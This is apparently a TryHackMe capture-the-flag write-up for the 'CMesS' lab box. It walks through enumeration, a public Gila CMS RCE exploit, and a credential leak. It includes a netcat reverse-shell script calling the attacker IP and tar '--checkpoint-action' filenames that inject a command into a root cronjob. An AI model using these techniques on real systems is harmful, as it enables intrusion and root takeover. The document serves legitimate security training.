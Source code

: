 # THM - CMesS

#### Ip: 10.10.246.242
#### Name: CMesS
#### Difficulty: Medium

----------------------------------------------------------------------

cmess.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ sudo nmap -p-  --min-rate 10000 10.10.246.242
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 10:08 CDT
Nmap scan report for 10.10.246.242
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ sudo nmap -sC -sV 10.10.246.242 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 10:09 CDT
Nmap scan report for 10.10.246.242
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9b652d3939a3850b4233bfd210c051f (RSA)
|   256 21c36e318b85228a6d72868fae64662b (ECDSA)
|_  256 5bb9757805d7ec43309617ffc6a86ced (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds
```

Navigating to the site we find a default Gila CMS landing page:

site.png

Per the instructions/ hint, it looks like we'll need to do some fuzzing here. We can do that with wfuzz:

fuzz.png

Cool, looks like we've also got a dev.cmess.thm, lets add that to `/etc/hosts` as well. 

Checking out the page we find a chat between user andre and the support team, and included in the chat is a password!

dev.png

Navigating to http://cmess.thm/admin we can use these credentials to login to andre's account:

admin.png

### Exploitation

At the bottom of the page we find the version number for Gila: `Gila CMS version 1.10.9`

Searching for public exploits I came across https://www.exploit-db.com/exploits/51569 which looks promising. 

Taking a look at the code it looks like we're exploiting the .htaccess mentioned in the dev notes. Lets give this a shot.

Lets fire off the script using:

```text
┌──(ryan㉿kali)-[~/THM/CMesS]
└─$ python gila_1.10.9_rce.py
```

And we can catch a shell back as www-data:

shell.png

Trying to access andre's home direcotory we get an access denied error:

```text
www-data@cmess:/var/www/html/tmp$ cd /home
cd /home
www-data@cmess:/home$ ls
ls
andre
www-data@cmess:/home$ cd andre
cd andre
bash: cd: andre: Permission denied
```

Looks like we'll need to look around a bit more.

Checking out the `/opt` folder we find a backup file with with andre's credentials:

```text
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```

We can use this password to switch users to andre and grab the user.txt flag:

user_flag.png

### Privilege Escalation

Taking a look at `/etc/crontab` to find any cronjobs, we find a job run by root that uses tar on everything/* in `/home/andre/backup`

```text
# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
Because this job is using a wildcard, we should be able to exploit this. 

Lets create a bash script in the `/backup` directory with:

```text
andre@cmess:~/backup$ cat > /home/andre/backup/shell << EOF
> #!/bin/bash
> rm /tmp/test
> mkfifo /tmp/test
> cat /tmp/test|/bin/sh -i 2>&1|nc 10.6.61.45 8888 >/tmp/test
> EOF
```
Then run:

```text
echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh shell"
```

After two minutes (or less) we should catch a shell in our netcat listener and be able to grab the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------



